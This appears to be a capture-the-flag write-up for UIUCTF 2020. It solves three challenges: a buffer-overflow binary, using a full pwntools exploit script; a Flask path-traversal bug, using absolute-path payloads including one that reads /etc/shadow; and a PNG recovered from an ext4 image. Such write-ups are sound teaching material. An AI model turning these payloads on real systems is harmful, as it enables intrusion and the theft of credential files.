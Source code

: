 # UIUCTF 2020

## [Warmup] Spoockies

![](images/spoockies.png)

- We can decompile this program using [Ghidra](https://ghidra-sre.org/)

  - The main function calls `vulnerable()`

  ![](images/spoockies_main.png)

  - `vulnerable` gets a user input and simply assigns 2 variables, and checks if one of them changed and the other stayed the same

    ![](images/spoockies_vulnerable.png)

  - The `gets` doesn't check the size of the input, so we can attack the program with a buffer overflow

    - First we draw the stack

    ![](images/spoockies_stack.png)

    - Then we overflow it using [pwntools](https://github.com/Gallopsled/pwntools)

      ```python
      from pwn import *
      
      LOCAL = "remote" not in sys.argv
      
      elf = ELF("./pwn-warmup")
      context.update(binary=elf)
      
      if LOCAL:
      	r = process(elf.path)
      else:
      	r = remote("chal.uiuc.tf", 2003)
      
      # We start by filling the uffer with 16 chars, then we pass the value to the variable that must not change, and finally we change the variable that must be changed
      payload = b"A"*16 + p32(0x12345678) + b'C'*4
      log.info("Payload : " + str(payload))
      r.sendlineafter(b'hmm...', payload)
      
      r.interactive()
      r.close()
      ```

      ![](images/spoockies_flag.png)

- Flag: uiuctf{stupid_flag_i_just_fell_out_of_the_bag}

## [Web] security_question

![](images/security_question.png)

```python
@app.route('/getpoem')
def get_poem():
    poemname = request.args.get('name')

    if not poemname:
        return 'Please send a name query:\n' + str(os.listdir('poems')), 404

    poemdir     = os.path.join(os.getcwd(), 'poems')
    poempath    = os.path.join(poemdir, poemname) 

    if '..' in poemname:
        return 'Illegal substring detected.', 403
    
    if not os.path.exists(poempath):
        return 'File not found.', 404

    return send_file(poempath)
```

- Looking at the code, we can see that :

  - The URL https://security.chal.uiuc.tf/getpoem gives us a list of available poems
  - We can display one of these poems with https://security.chal.uiuc.tf/getpoem?name=tyger.txt
  - And using `..` gives a 403
  - ... but we can pass arguments directly to `os.path.join()` using the `name` parameter

- Looking at its [documentation](https://docs.python.org/3/library/os.path.html)

  ![](images/security_question_path.png)

  - We can pass `/hidden_poem.txt` to `name` so that `poemdir` is thrown out of the `poempath` variable
    - https://security.chal.uiuc.tf/getpoem?name=/hidden_poem.txt
  - We could also get any other file given we know its absolute path (https://security.chal.uiuc.tf/getpoem?name=/etc/shadow for example)

- Flag: uiuctf{str_join_is_weird_in_python_3}

## [Forensics] Raymonds Recovery

![](images/raymonds_recovery.png)

- As stated in the challenge description, the data is an ext4 filesystem

- We can mount it to check its content

  ![](images/raymonds_fs.png)

- Some of the files are corrupted, but we are looking for a PNG. We can use [PCRT](https://github.com/sherlly/PCRT) to check and repair them

  ![](images/raymonds_pcrt.png)

  - PCRT seems quite unwilling to repair this file (è.é) so we can just fix the header by hand using any hex editor

    ![](images/raymonds_hexfix.png)

  - We can then open the repaired file

    ![](images/raymonds_recovered.jpeg)

- Flag: uiuctf{everyb0dy_l0ves_raym0nd}

